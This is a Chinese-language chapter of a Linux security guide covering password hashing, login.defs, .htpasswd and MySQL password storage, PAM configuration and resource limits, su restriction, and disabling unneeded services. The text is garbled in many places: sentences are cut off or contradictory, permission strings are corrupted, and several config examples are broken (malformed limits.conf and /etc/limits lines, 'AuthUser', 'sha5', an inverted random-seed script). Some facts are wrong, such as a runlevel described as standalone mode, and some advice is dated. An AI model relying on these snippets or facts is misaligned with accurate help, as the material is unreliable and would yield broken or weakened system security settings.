`Linux`支持两种密码保护算法：`DES`（数据加密标准）和`MD5`（消息摘要 5），这两者在附录 E“密码学”中都有讨论。

`DES`的主要问题是密码限制为八个字符。虽然在最初开发该方案时这不是问题，但现代计算能力意味着密钥空间可以在短时间内被遍历（这意味着破解者可以尝试所有可能的字符组合）。`MD5`哈希算法解决了这一缺点，允许长度长达 127 个字符的密码，应优先于`DES`使用。

你可以通过查看`/etc/shadow`中的密码条来判断系统使用的是哪种方法。如果它们是 34 个字符并以`$`开头，则使用`MD5`哈希处理；如果是 13 个字符，则使用`DES`加密。

## 使用 /etc/login.defs 进行登录控制

如果你已经安装了`Shadow`套件，启用`MD5`密码只需要打开`/etc/login.defs`并将该行改为`yes`。

```bash
MD5_CRYPT_ENAB=no
```

在提到此文件时，你可能还会更改与登录过程相关的其他选项。这些选项将在后续章节中详细介绍。

## FAIL_DELAY

这是在用户输入错误密码后，登录提示返回之前的延迟时间（秒）。虽然暴力登录尝试已经是一个极其缓慢的过程，但将此值从默认的 3 稍微提高会使其更慢。建议值在 3 到 8 之间。

## CONSOLE

此行定义了`root`用户可以登录的设备。通常情况下，只允许坐在机器前的用户登录`root`是一个好主意：

```bash
console:tty01:tty02:tty03:tty04
```

这将`root`登录限制在前 4 个虚拟控制台上。如果用户想远程登录，他必须先作为普通用户`ssh`，然后执行`su`命令。这引入了额外的安全层，因为攻击者现在必须知道用户密码以及`root`密码。

## ISSUE_FILE

在此处定义的文件内容会在登录提示之前显示给所有用户，该文件的建议用途是（礼貌地）提醒用户有关访问服务器（特别是未经授权的访问）的规则。虽然显示这些规则可能没有法律效力（毕竟无论你是否在门口挂告示提醒他们法律，人们闯入你家都是非法的），但显示它们可以提醒潜在的入侵者，你非常重视安全。一个合适的横幅可能内容如下：

本系统仅供授权人员使用。

继续操作即表示你同意遵守下述条款和条件：

- 黑客攻击、破解或端口扫描

- 存储非法材料，如`mp3`或破解软件

- 冒充其他用户

未经授权或不当使用本系统（由管理员判断）可能导致纪律处分和/或刑事或民事诉讼。

如果你未获得使用此服务的授权，或不同意上述条款，请立即退出。

## SU_WHEEL_ONLY

如果此项设置为`yes`，只有属于`gid`为 0 的组（通常名为`root`或`wheel`）的用户才能`su`到`root`。与控制台设置一样，这增加了一层防御，通常应该启用。

## 密码老化 (Password Aging)

这四个设置实现了`Shadow`套件支持的（前文提到的）全系统密码老化策略。`PASS_MIN_LENGTH`几乎应该增加到 5 以上。

## 密码策略

虽然只有`root`可读，但假设……是愚蠢的

## 基础安全措施

那么什么构成了强密码？因为对这两种方法都很熟悉，我们真的可以推荐它们（尽管它们显然优于第一种）。创建一个良好的密码：

- 混合使用大写字母和小写字母。

- 使用数字和特殊字符，如点、连字符、空格、逗号、分号等。

- 不要把密码设置得太复杂，以至于你记不住而写下来。

# 基础系统安全措施

...密码，因此，即使与特定应用程序相关的安全风险很小，对整个系统的影响也可能很大。遗憾的是，`MySQL`和`Apache`都支持以安全的方式进行强密码加密——但这些功能是否被使用取决于`Web`开发者的决定（在很多情况下，它们并没有被使用）。

## 使用 .htpasswd 进行身份验证

`Apache`允许管理员通过`.htpasswd`文件机制对尝试访问目录的用户进行身份验证，我们稍后会详细讨论这一主题。在每个需要保护的目录中都会放置一个`.htaccess`文件，该文件反过来又引用一个密码文件（通常称为`.passwd`，但可以使用任何名称）。以下是从`.htaccess`文件中提取的片段有助于说明这一点：

```
AuthUser /var/www/htdocs/.htpasswd
AuthGroupFile /dev/null
AuthName "Employees Only"
AuthType Basic

<Limit GET>
require valid-user
</Limit>
```

这告诉`Apache`用于身份验证的文件路径（`/var/www/htdocs/.htpasswd`）、显示的身份验证信息（`'Employees Only'`）、身份验证类型（`basic`）以及身份验证组文件——在这种情况下都没有。最后三行是`Limit`指令，将访问限制为仅有效用户。

`.htpasswd`文件中的条目采用`用户名:密码`的形式，加密方法通过操作系统的`crypt()`函数或`Apache`提供的`MD5`修改版本实现。这两种加密方法可以在同一个文件中共存；如果你使用`htpasswd`二进制文件创建条目，可以通过命令行开关进行指定。第三种方法是使用`SHA`哈希，在迁移到`Oracle-in`或`Netscape`服务器时受支持，但在常规用法中已弃用。

可用的两种方法在密码学上都是可靠的，但它们容易受到暴力破解，因此应小心防止`.htpasswd`文件被系统上的普通用户读取（事实上，运行`Apache`的用户——通常是`www`、`httpd`或`nobody`——是唯一一个对此文件具有读取权限的账户）。由于此文件通常位于公共访问的`Web`树中，因此确保它在`Web`浏览器中不可见可能更为重要。默认情况下，`Apache`会阻止对`.htaccess`和`.htpasswd`文件的访问，但更安全的解决方案是将密码文件完全移出公共`Web`空间。你可以通过编辑`.htaccess`文件中调用的密码文件路径来实现。虽然在`Unix`平台上这很常见，但以点开头的文件在`Windows`平台上不易于操作，因此`Windows`用户通常会在本地机器上创建名为`htpasswd`（不带点）的文件，将其上传，然后使用`FTP`客户端将其重命名为`.htpasswd`。如果你或你的任何用户习惯使用这种方法，请小心不要在服务器上无意中留下`htpasswd`（不带点）文件。

## MySQL

`.htpasswd`文件并不是网站可用的密码保护唯一手段；许多`Web`开发者更喜欢将密码存储在`MySQL`数据库中，并存储相关信息，如电子邮件地址、真实姓名等。`MySQL`支持通过`encrypt()`函数使用`DES`算法进行数据加密，该函数会调用操作系统的`crypt()`函数。如前所述，这实际上将密码限制在最多八个字符。为了克服这一局限性，大多数最新`MySQL`版本还包含了对以下加密方法的支持[加密函数]：

- `AES`，通过`AES_ENCRYPT()`和`AES_DECRYPT()`函数实现。默认长度为 128 位，但通过修改源代码可以扩展到 256 位。

- `MD5`，通过`MD5()`函数实现。使用`MD5`创建的校验和为 128 位，且无法解密，尽管可以被暴力破解。

- `SHA`，使用`SHA()`函数。通过这种方法生成 160 位的校验和，它们无法解密，但可以被暴力破解。

如你所见，有两种加密算法（`DES`和`AES`）和两种哈希算法（`MD5`和`SHA`）。在这四种方法中，`MD5`可能是最流行的，尽管`AES`是安全的。

尽管`MySQL`提供了多种加密方法来存储敏感信息作为密码，但仍有很多`Web`开发者并不使用它——要么是因为不知道，要么是因为他们认为没有必要。如果你正在选择在你的`Web`上运行第三方软件（例如论坛或其他需要用户使用密码登录的应用程序），请先检查是否使用了任何形式的密码加密。

## 6.2 用户控制与 PAM


在 `Linux` 中，用户身份验证通常基于 `/etc/passwd` 文件；多年来，许多其他方法——如智能卡、指纹识别等已变得流行。实现新身份验证系统的问题是，所有需要它的应用程序都必须重新配置和编译。`PAM`（可插身份验证模块）通过将身份验证与应用程序本身分离来解决这个问题。现在更改身份验证方案只需更改所使用的 `PAM` 即可。

许多安全书籍都赞扬 `PAM` 的优点，但我们稍微谨慎一点；它减轻了管理员的工作量，除非你经常更改身份验证方法。由于 `Linux` 发行版会自动安装 `PAM`，这并不是一个大问题。

以下是与 `PAM` 模块的详细列表，列出了 `Linux PAM` 系统包含的大多数模块：

- `pam_console`: 允许对登录控制台的用户执行不同的访问规则。

- `pam_deny`: 禁止登录控制台（例如 `SSH`、控制台）的所有访问形式。

- `pam_env`: 环境变量的可配置列表。

- `pam_filter`: 允许对进程的 `STDIN` 进行过滤。

- `pam_ftp`: 提供匿名 `FTP` 登录。如果提供了用户名`"ftp"`或`"anonymous"`，则授予访问。

- `pam_group`: 扩展账户组的使用，根据用户登录的位置和尝试访问的服务进行细粒度控制。

- `pam_limits`: 允许限制用户或组的磁盘空间和内存/`CPU` 使用。

## 21 `Linux` 网络安全

- `pam_listfile`: 根据指定文件的内容使用替代身份验证方法。

- `pam_nologin`: 防止非 `root` 用户登录，`/etc/nologin` 文件存在。该文件会向尝试登录的用户显示，因此是存储拒绝访问信息的合适位置。

- `pam_passwd`: 检查密码强度。

- `pam_pwdb`: 替换使用密码数据库的 `pam_unix` 模块。

- `pam_radius`: 基于密码数据库的 `RADIUS`（远程拨号用户服务）认证。

- `pam_rootok`:  `UID` 为 `root` 的用户。

- `pam_security`: 对 `/etc/security` 列出的终端（通常是虚拟控制台）提供访问控制。

- `pam_shells`: 根据 `/etc/passwd` 中指定的用户 `shell` 进行身份验证。

- `pam_stress`: 应用程序的压力测试。

- `pam_tally`: 允许在指定的失败次数后禁用账户。可以为 `root` 指定特定的访问控制。

- `pam_time`: 允许根据登录的时间和位置对用户进行身份验证。

- `pam_unix***`: 标准 `Unix` 认证模块，支持密码影子。

- `pam_wheel`: 强制与 `wheel` 组相关的权限（例如，仅允许 `wheel` 组的成员切换到 `root`）。我们将在本章后面的部分更深入地研究这些模块。

### `PAM` 配置

`Linux-PAM` 可以编译为提供两种配置模式：通过一个的 `/etc/pam.conf` 文件，或者通过使用放置在 `/etc/pam.d/` 中的独立配置文件。这种方法更受青睐，并且是许多系统（包括 `RedHat/Fedora` 和 `SuSE`）的默认设置。在本章中，我们假设使用的是这种配置方法。

`/etc/pam.d` 目录中的每个文件根据其提供的配置选项的服务命名。一个典型的 `/etc/pam.d` 目录如下：

# 系统安全措施 219

```
# ls -l
total 84
-rw-r--r-- 1 root root 272 Apr 19 2002 authconfig
-rw-r--r-- 1 root root 330 Jun 24 2002 chfn
-rw-r--r-- 1 root root 330 Jun 24 2002 chsh
-rw-r--r-- 1 root root 363 Mar 12 2002 ftp
-rw-r--r-- 1 root root 225 Apr 15 2002 halt
-rw-f--r-- 1 root root 157 Jun 24 2002 kbdrate
-rw-r--r-- 1 root root 427 Jun 6 2002 login
-rw-f--r-- 1 root root 210 Feb 6 2003 other
-rw-f--r-- 1 root root 211 Mar 13 2002 passwd
-rw-f--r-- 1 root root 77 Apr 18 2002 screen
-rw-f--r-- 1 root root 144 Mar 26 2003 smtp
-rw- 1 root root 452 Jun 8 2002 sshd
-rw-f--r-- 1 root root 659 Aug 8 2002 su
-rw-f--r-- 1 root root 278 Apr 18 2002 sudo
-rw-f--r-- 1 root root 643 May 5 2003 system-auth
```

该目录的准确内容自然取决于你正在运行的 `Linux` 发行版和版本。

配置文件的每一行格式如下：

`module-type control-flags module-name arguments`

### 模块类型

有以下模块类型可用：

- `auth`: 该模块有两个功能：首先是验证用户的身份是否为其其声称的身份，其次是允许授予其他权限。

- `account`: 该模块提供与身份验证无关的账户管理选项。通常，它用于根据来源（例如，只有非 `root` 用户可以从远程机器登录）或时间段进行限制。

- `session`: 该模块处理在用户获得访问权限之前之后需要执行的任务。例如，在用户注销后，可能希望从 `/tmp` 中删除任何由其拥有的临时文件。

- `password`: 更新与用户关联的验证令牌需要此模块。

## 220 `Linux` 网络安全 # 控制标志

共有四种控制标志可用，用于决定被处理的模块是成功还是失败：

- `required`: 该模块必须执行成功。如果执行失败，仍会继续执行相同模块类型的其他模块。

- `requisite`: 该模块与 `required` 类似；但在失败情况下，控制权将直接返回给应用程序，而不是继续执行其他模块。

- `sufficient`: 如果一个控制标志为 `sufficient` 的模块执行成功，则不再调用同模块类型的其他模块。

- `optional`: 该模块的执行成功是可选的。

## 模块名称

这是要使用的模块名称。如果没有给出路径，则默认为 `/lib/security`。

### 参数

这是传递给模块的参数列表，可以是通用选项或专门与模块相关的选项。无效的参数将被忽略，如果你想在参数中包含空格，应用方括号括起来。

通用选项有：

- `debug`: 使用 `syslog` 记录调试信息。

- `no-warn`: 抑制警告消息。

- `use_first_pass`: 如果之前输入过密码，则模块应使用该密码，而不是提示用户输入密码。

- `expose_account`: 默认情况下，`PAM` 尝试隐藏用户的全名或默认 `shell`（此类信息对攻击者有用）。使用此参数允许显示此类信息，使登录过程更加友好（例如，`"请输入密码，John Smith："`），但应在信任环境中使用。

### 模块堆叠

相同模块可以堆叠在一起，按从上下的顺序执行。以下 `login` 配置说明了这一点：

```
# cat /etc/pam.d/login
## PAM-1.0
auth required /lib/security/pam_securetty.so
auth required /lib/security/pam_stack.so service=system-auth
auth required /lib/security/pam_nologin.so
auth required /lib/security/pam_stack.so service=system-auth
account required /lib/security/pam_stack.so service=system-auth
password required /lib/security/pam_stack.so service=system-auth
session required /lib/security/pam_stack.so service=system-auth
session optional /lib/security/pam_console.so
```


```
# 此文件自动生成。
# 下次运行 autconfig 时将删除用户更改。
auth required /lib/security/pam_env.so
auth sufficient /lib/security/pam_unix.so
auth required /lib/security/pam_deny.so

account required /lib/security/pam_unix.so

password required /lib/security/pam_cracklib.so retry=3
password sufficient /lib/security/pam_unix.so
use_authtok
password required /lib/security/pam_deny.so

session required /lib/security/pam_limits.so
session required /lib/security/pam_unix.so
```

你可以看到，`system-auth` 主要通过`/etc/passwd` 验证用户。在执行`system-auth` 后，控制权传给`login` 配置中的 `pam_nologin` 模块。如果认证未成功，则拒绝访问。`system-auth` 会为 `account`、`password` 和 `session` 被调用三次。最后，`pam_console` 被调用以通过控制台增强或限制用户的权限。该模块的成功是可选的。

### 默认策略

`/etc/pam.d/other` 是一个特殊文件，在不存在服务文件的情况下作为默认策略；因此，该文件的强度至关重要。以下是建议的文件：

| auth required pam_deny.so |
| auth required pam_warn.so |
| account required pam_deny.so |
| account required pam_warn.so |
| password required pam_deny.so |
| password required pam_warn.so |
| session required pam_deny.so |
| session required pam_warn.so |

这使得默认策略拒绝访问并向 `syslog` 发送警告消息。

### 密码控制

`PAM` 用户有另一种在本章控制密码策略的方法。在本章之前概述的`/etc/login.defs` 方法的服务在`/etc/pam.d/` 中有一个配置文件。对于 `passwd`，文件看起来如下：

| auth required /lib/security/pam_stack.so service=system-auth |
| account required /lib/security/pam_stack.so service=system-auth |
| password required /lib/security/pam_stack.so service=system-auth |

这里的关键行是对 `system-auth` 的引用（通用认证 `/etc/pam.d/system-auth`），用于密码策略的详细信息：

```
# /etc/pam.d/system-auth
password required /lib/security/pam_cracklib.so retry=3
password sufficient /lib/security/pam_unix.so sha5 shadow use_authtok
password required /lib/security/pam_deny.so
```

# 系统安全措施 223

第一行导致 `PAM` 使用 `cracklib` 模块，它提供密码强度测试，包括识别与旧密码相似的密码。在前面的示例中，`retry` 设置为 3。还支持以下选项：

- `minlen`: 最小可用密码加一。每使用一类字符（大写、小写、数字、其他）给予一分；因此，即使 `minlen` 设置为 7，`password_x` 也会被允许。
- `dcredit`: 在密码中使用数字获得的最高加分。
- `ucredit`: 使用大写字母获得的最高加分。
- `lcredit`: 使用小写字母获得的最高加分。
- `ocredit`: 使用“其他”字符（非字母数字字符）获得的最高加分。

这个评分系统最初有点令人困惑，但一旦掌握，就能提供巨大的功能。默认情况下，每个字符的最高分为一，但如果你强制执行更长的密码长度，可能将其增加到二。让我们看看例子：

```
password required /lib/security/pam_cracklib.so retry=3 \
minlen=6 dcredit=2 ucredit=2 lcredit=2 ocredit=2
```

乍看之下，这似乎是一个很好的规则，强制执行六字符的最小密码长度；遗憾的是评分设置意味着像 `S3%` 这样的三个字符密码是完全可以的——这可能不是想要的。

```
password required /lib/security/pam_cracklib.so retry=3 \
minlen=14 dcredit=2 ucredit=1 lcredit=1 ocredit=2
```

## 限制资源

尽管与身份认证主题没有直接关系，但 `PAM` 支持通过 `/etc/security/limits.conf` 文件限制用户资源，这对于防止本地 `DoS` 攻击（无论是故意还是无意）非常有用。该文件的头部解释了大部分语法：

每行以以下格式描述用户的限制条件：

```
<domain> <type> <item> <value>
```

其中：

`<domain>` 可以是：

- 用户名
- 组名，使用 `@group` 语法
- 通配符 `*`，用于默认条目

`<type>` 可以取两个值之一：

- `"soft"`，用于执行软限制
- `"hard"`，用于执行硬限制

`<item>` 可以是以下项之一：

- `core` - 限制核心文件大小 (KB)
- `data` - 最大数据大小 (KB)
- `fsize` - 最大文件大小 (KB)
- `memlock` - 最大锁定内存的地址空间 (KB)
- `nofile` - 最大打开文件数
- `rss` - 最大驻留集大小 (KB)
- `stack` - 最大栈大小 (KB)
- `cpu` - 最大 CPU 时间 (MIN)
- `nproc` - 最大进程数
- `as` - 地址空间限制
- `maxlogins` - 该用户的最大登录次数
- `priority` - 运行用户进程的优先级
- `locks` - 用户可以持有的文件锁最大数

例如，要关闭核心文件生成（核心文件仅对调试崩溃的应用有用）并将进程数限制为五个，请使用以下行：

```
* hard core 0
* hard nproc 5
```

## 基础系统安全措施

然而，请记住，在域中使用星号会导致规则应用于所有用户，包括已命名的系统账户和 `nobody` 账户；而且将 `Apache` 限制为五个进程是相当低了。

答案是在域字段中使用组。大多数系统会将新的普通用户添加到 `users` 组，因此以下内容是合法的：

```
* hard core 0
* hard rss 50000
* fsize fsize 1000000
* @users hard maxlogins 3
* @users hard rss 50000
* @users soft fsize 500000
* @wheel soft maxlogins 10
```

在这里，我们为每个用户设置了驻留内存和最大大小的全局限制，分别为 50 MB 和 1 GB（对于系统守护进程足够了）。对于用户，我们将最大登录次数限制为三次，并将最大文件大小缩小到 500 MB。最后，`wheel` 组中的用户被允许更大的灵活性。

并没有阻止你仅仅为了限制资源而创建组。`wheel` 组通常用于限制谁可以 `su` 到 `root`（该组的成员可以执行此命令，不是成员则不行），因此该组可能不包含所有（也许一个）初级管理员。更好的策略是为管理员创建一个新组并对此组应用限制：

```bash
# groupadd admins
# usermod -G users,admins john
# usermod -G users,wheel,admins pete
```

（使用 `-g` 时，你必须列出用户应该所属的所有组。用户之前所属但未列出的任何组都将被删除。）通过这种方式，你还可以为 `Apache` 和 `BIND` 等服务创建特殊组，并限制它们在出现异常时占满整个系统（`Apache` 配置文件也有关于最大资源使用的自己的设置）。

## 非 PAM 方式

如果你没有使用 `PAM`，之前提到的大部分功能仍然可以通过使用 `/etc/limits` 文件启用。原理是相同的，但语法有所不同，通用格式为：

```
username      limit_strings
```

如 `man` 页面（`man limits`）所示，`limit_strings` 的有效标识符为：

- `A`: 最大地址空间 (KB)


- `C`: 最大核心文件大小 (KB)
- `D`: 最大数据大小 (KB)
- `F`: 最大文件大小
- `M`: 最大锁定内存的地址空间 (KB)
- `N`: 最大打开文件数
- `R`: 最大驻留集大小 (KB)
- `S`: 最大栈大小 (KB)
- `T`: 最大 CPU 时间 (MIN)
- `U`: 最大进程数
- `K`: 文件创建掩码，由 `umask(2)` 设置
- `L`: 该用户的最大登录次数
- `P`: 进程优先级，由 `priority(2)` 设置

用户名字段可以使用星号来使设置适用于所有用户；因此，要将用户可以运行的进程数限制为五个并为其禁用核心文件，请添加以下规则：

```
* hard u5
```

`/etc/limits` 的主要缺点是限制是按登录执行的。在以前的示例中，可以通过登录三次轻松地运行 15 个进程。

## 控制 `su` 访问

默认情况下，任何具有登录权限的用户如果知道 `root` 密码，就可以通过 `su` 变成 `root`。在许多系统中，发现了一种更安全的设置是将 `root` 权限限制为名为 `wheel` 的特殊组的成员的用户。我们可以通过 PAM 使用 `/etc/security/su` 文件来实现这一点。该文件在你的系统中可能存在也可能不存在；无论如何，要实施限制，请修改它如下所示：

```
auth required /lib/security/pam_wheel.so group=wheel
auth required /lib/security/pam_wheel.so
account required /lib/security/pam_wheel.so
```

## 创建 Chroot 环境

Chroot 环境在大型主机上非常流行，作为增加安全性的手段。在 chroot 环境中，用户无法看到其锁定的目录之外的内容，甚至可能不知道自己正处于 chroot 中。PAM 通过标准发行版包含的 `pam_chroot` 模块来实现 chroot。

```
session required /lib/security/pam_chroot.so
```

## 其他 PAM 模块

PAM 的整个意义在于新模块和现有模块可以轻松地插入系统，而无需重新编译。除了发行版包含的主要模块外，还有许多第三方模块可以提供额外功能。接下来将描述一些最有趣的模块。

# 基础系统安全措施

`pam_alreadyloggedin` (<http://ilya-evseev.narod.ru/posix/pam_alreadyloggedin/>)

此模块允许控制用户在已经在虚拟控制台上登录的情况下，避免重新输入密码。

Linux-PAM 的主页 (<http://www.kernel.org/pub/linux/libs/pam/modules.html>) 包含了大量的可用模块列表，并提供了了解更多每个模块的链接。该列表包含了第三方模块以及 Linux-PAM 默认提供的模块。

## 6.3 服务

在第 4 章中，我们使用 `Nmap` 发现机器上的监听端口，然后使用 `netstat` 识别在这些端口上监听的服务。在本节中，我们将讨论这些服务到底是什么，它们是否真的需要，以及如果不需要，该如何禁用它们。不要低估不需要的服务可能导致的安全问题。正如我们在第 2 章中看到的，即使是看起来最无害的服务（如时间或充电服务），也可以被用于产生 DoS 攻击。

### 常用服务

以下列表提供了一些常用的服务及其作用的简要说明。这绝不是一份完整的列表，但应该涵盖了你可能在典型 Linux 系统上运行的大部分服务。项目按端口号排序。

- `Echo` (TCP/UDP 7): 回显其收到的任何数据。
- `Discard` (TCP/UDP 9): 丢弃其收到的任何数据。
- `Daytime` (TCP/UDP 13): 返回当前日期和时间。
- `Gotd` (TCP/UDP 17): 返回每日一句。
- `Charger` (TCP/UDP 19): 返回字符流。
- `Telnet` (TCP/UDP 23): 远程登录访问。应该使用提供加密会话的 `SSH` 代替 `Telnet`。
- `Time` (TCP/UDP 37): 时间协议提供机器可读的日期时间。
- `Tftp` (TCP/UDP 69): 简单文件传输协议。该服务现在很大程度上是多余的。
- `Finger` (TCP/UDP 79): `finger` 守护进程提供系统用户的信息。例如：

```
finger root@192.168.0.2
[192.168.0.2/192.168.0.2]
Login: root              Name: (null)
Directory: /root         Shell: /bin/bash
Last login Fri Apr 23 11:10 (UTC) pts/10 from 192.168.10.1
Mail list last Tue Jan 20 00:25 2004 (UTC)
No Plan.
```

除了存在远程 `root` 漏洞的历史外，`finger` 服务还为潜在攻击者提供了有用信息，除非特别需要，否则通常会被禁用。

- `Auth` (TCP/UDP 113): 验证守护进程（又名 `ident`）跟踪哪个用户正在运行哪个服务，并在查询时报告这些信息。尽管这意味着系统信息正在泄露，但在我们看来，`ident` 通常是一件好事。通过允许远程站点获取连接到它们的用户名，本地系统上的捣乱者可以被快速追溯。某些服务（如 `SMTP`）通常要求客户端运行 `ident`。

除了 `ident` 和 `finger` 外，所有这些服务都应该被禁用，因为它们大多已经过时，并且多年来出现过漏洞。你可能想参考第 2 章对其中一些漏洞的讨论。

以下三个服务组成了 Berkeley R* 套件，这是一组使用主机身份验证提供机器无密码访问的工具（这些工具是在伯克利开发并包含在他们的 BSD Unix 中的）。它们是：

这些程序是一把双刃剑。虽然它们容易受到 IP 欺骗攻击，但它们确实有一个优势，即不在网络上传输密码

```
$ /usr/sbin/rpcinfo -p localhost
program vers proto port
100000 2 tcp 111
100000 2 udp 111
100021 1 udp 32768
100021 3 udp 32768
100021 4 udp 32768
```

在这里我们看到了版本 2 的 `portmapper` 守护进程，以及版本 1、3、4 的 `nlockmgr`（后会详细描述）。

不幸的是，许多 RPC 服务安全记录不佳，除非绝对必要，否则你应该谨慎并禁用它们——即使某个服务或版本目前被认为是安全的。特别是，你应该尝试禁用运行在防火墙/路由器和 DMZ 的所有 RPC 服务。

RPC 服务的问题之一是它们经常在管理员不知情的情况下运行，在进行常规端口扫描时无法察觉。在接下来的章节中，我们将查看一些常见的 RPC 服务以及它们的用途。这将帮助你对它们是否需要运行做出明智的决定。绝对不应该运行在防火墙或 DMZ 内部。

### 启动和停止服务

现在你已经决定了哪些服务是必要的，下一步是禁用它们的启动。不幸的是，其语法随发行版而异，因此我们将关注 Red Hat/Fedora 和 SuSE。

### `xinetd`

在第 2 章中，我们提到了 `xinetd.conf`，这是 Internet 服务器使用的配置文件。Slackware 和许多 Linux 发行版使用替代 `xinetd`，比旧的 `xinetd` 格式提供了更大的自定义功能。每个由 `xinetd` 控制的服务在 `/etc/xinetd.d/` 目录下都有自己的文件


```
$ ls -l /etc/xinetd.d
total 76
-rw-r--r-- 1 root root 560 Jul 8 2003 charger
-rw-r--r-- 1 root root 580 Jul 8 2003 charger-udp
-rw-r--r-- 1 root root 417 Jul 8 2003 daytime
-rw-r--r-- 1 root root 437 Jul 8 2003 echo
-rw-r--r-- 1 root root 339 Jul 8 2003 echo
-rw-r--r-- 1 root root 358 Jul 8 2003 echo-udp
-rw-r--r-- 1 root root 317 Jul 8 2003 finger
-rw-r--r-- 1 root root 257 Jul 8 2003 ntalk
-rw-r--r-- 1 root root 359 Jul 8 2003 resec
-rw-r--r-- 1 root root 376 Jul 8 2003 login
-rw-r--r-- 1 root root 429 Jul 8 2003 rsh
-rw-r--r-- 1 root root 317 Jul 8 2003 rsync
-rw-r--r-- 1 root root 310 Jul 8 2003 servers
-rw-r--r-- 1 root root 312 Jul 8 2003 services
-rw-r--r-- 1 root root 245 Jul 8 2003 talk
-rw-r--r-- 1 root root 303 Jul 8 2003 telnet
-rw-r--r-- 1 root root 495 Jul 8 2003 time
-rw-r--r-- 1 root root 515 Jul 8 2003 time-udp
-rw-r--r-- 1 root root 328 Apr 25 13:48 wu-ftpd
```

每个文件都对服务的执行方式提供了细粒度的控制，包括它应该以的用户运行以及日志选项：

```
$ cat /etc/xinetd.d/finger
# default: on
# description: The finger server answers finger requests.
# finger 是一种允许远程用户查看本地用户
# 登录名和最后登录时间的协议。
service finger
{
    disable = yes
    socket_type = stream
    wait = no
    user = nobody
    server = /usr/sbin/in.fingerd
}
```

启用或禁用服务只需用编辑器打开文件并更改 `disable` 值即可。

在谈到内联属性时，可以为单个服务或通过 `/etc/xinetd.conf` 文件全局地定义许多其他属性。特别值得注意的是：

- `no_access`: 不允许访问服务的客户端列表。
- `only_from`: 允许访问服务的客户端列表。
- `cps`: 每秒最大连接数。达到此阈值后，新的连接尝试将被临时拒绝。
- `instances`: 允许运行的最大并发实例数。
- `max_load`: 服务停止接受连接的系统负载百分比。
- `per_source`: 允许同一源的连接数。
- `bind`: 将服务绑定到特定的接口。

`bind` 在防火墙机器上特别有用，因为你可能希望从局域网内部 `ssh` 到该机器，但不想让从互联网访问该服务。`cps`、`instances`、`max_load` 和 `per_source` 都是对抗 DoS 攻击的有用工具，但要小心（特别是 `per_source`）不要将这些值设置得太低。

对 `xinetd` 服务进行任何必要的更改后，使用以下命令重启守护进程：

```
killall -HUP xinetd
```

此更改在重启后依然有效。

## inetd

在使用 `inetd` 而非 `xinetd` 的发行版中，禁用服务只需用文本编辑器打开 `/etc/inetd.conf` 并注释掉相关行即可：

- `# 文件传输协议 (FTP) 服务器：`
  `ftp-server stream nowait root /usr/sbin/tcpd proftpd`
- `# Telnet 服务器：`
  `#telnet stream nowait root /usr/sbin/tcpd in.telnetd`
- `# 当 biff 设置为 y 时，comsat 守护进程会通知用户有新邮件：`
  `comsat dgram udp wait root /usr/sbin/tcpd in.comsat`
- `# Shell, login, exec 和 talk 是 BSD 协议：`
  `#shell stream tcp nowait root /usr/sbin/tcpd in.rshd -L`
  `#login stream tcp nowait root /usr/sbin/tcpd in.rlogindd`

保存更改后，使用以下命令重启 `inetd`：

```
killall -HUP inetd
```

## 其他服务

并非所有服务都从 `inetd/xinetd` 启动；然而，要找到其余服务，你需要深入系统的初始化脚本。在采用 System V 初始化方法的发行版中，每个服务都由自己的 shell 脚本控制。以下是来自 SuSE 机器的随机脚本，用于控制随机数生成器（为了简洁略微编辑）：

```bash
#! /bin/sh
# /etc/init.d/random
#
# 用于在启动时快照随机状态并重新加载的脚本。
#
# 保存并恢复系统熵池以更高质量的
# 随机数生成。

random_seed=/var/lib/misc/random-seed

rc_reset
case "$1" in
start)
  echo -n "Initializing random number generator"
  if test ! -f $random_seed ; then
    cat $random_seed > /dev/urandom
    rc_status
  else
    > $random_seed
    rc_status
  fi
  chmod 600 $random_seed
  dd if=/dev/urandom of=$random_seed count=1 bs=512 \
  2>/dev/null
  rc_status -v
  ;
stop)
  echo -n "Saving random seed"
  if test ! -f $random_seed ; then
    > $random_seed
    rc_status
  fi
  chmod 600 $random_seed
  dd if=/dev/urandom of=$random_seed count=1 bs=512 \
  2>/dev/null
  rc_status -v
  ;
status)
  echo -n "Checking for random generator (always true)"
  rc_status -v
  ;
*)
  echo "Usage: $0 {start|stop|status}"
  exit 1
esac
rc_exit
```

有了脚本处理所有这些性性工作，启动或停止随机数生成器只需带有相应的参数调用脚本：

`# 基础系统安全措施 237`

```bash
# /etc/init.d/random stop
saving random seed
done
```

```bash
# /etc/init.d/random start
Initializing random number generator
done
```

```bash
# /etc/init.d/random status (always true)
Checking for random generator
running
```

类似的脚本通常用于控制其他服务，包括 `SSH`、`gpm`（控制台守护进程）、`xdm`（X 显示管理器）、`nfslock` 和 `hotspot`。你可以看到，`init`（初始化）脚本是启动——更重要的是停止服务的关键。在 Redhat 系统上，`init` 脚本可以在 `/etc/rc.d/` 中找到；在 SuSE 上，它们位于 `/etc/init.d`（技术上，这是两者中更正确的位置）。为了避免你输入完整路径，Redhat 还提供了 `service` 命令。因此：

```bash
# service nfslock stop
```

等同于

```bash
# /etc/rc.d/init.d/nfslock stop
```

### 运行级别（Runlevels）和初始化脚本


停止服务仅是任务的一半——你还需要防止服务在下次系统启动时再次启动。这就是运行级别（runlevels）发挥作用的地方。`/etc/rc.d` 包含一系列以 `rc` 为前的目录，每个目录控制当机器进入特定运行级别时应该启动哪些服务。在这里，是典型的 Redhat 系统上 `/etc/rc.d/rc3/` 中的一些条目：

```
l1rxwxrwx 1 root root | K05innd -> ../init/innd
l1rxwxrwx 1 root root | K12mysqld -> ../init/mysql
l1rxwxrwx 1 root root | K16httpd -> ../init/http
l1rxwxrwx 1 root root | K10postgresql -> ../init/rc.d/postgresql
l1rxwxrwx 1 root root | K20nfs -> ../init/nfs
l1rxwxrwx 1 root root | S05kudzu -> ../init.d/kudzu
l1rxwxrwx 1 root root | S08iptables -> ../init.d/iptables
l1rxwxrwx 1 root root | S10network -> ../init.d/network
l1rxwxrwx 1 root root | S12syslog -> ../init.d/syslog
```

你可以看到，每个条目都是指向 `/etc/init.d/` 的软链接。以 `S` 开头的条目在进入该级别时启动，以 `K` 开头的条目在离开该级别时停止。数字表示执行顺序。

使用 `runlevel` 命令可以查看当前的运行级别。运行级别如下：

| 运行级别 | 0 | 1 | 2 | 3 | 4 | 5 | 6 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 描述 | 单机模式 | 单用户模式 | 多用户模式 | 网络模式 | 兼容性用户模式 | 图形用户模式 | 重启模式 |

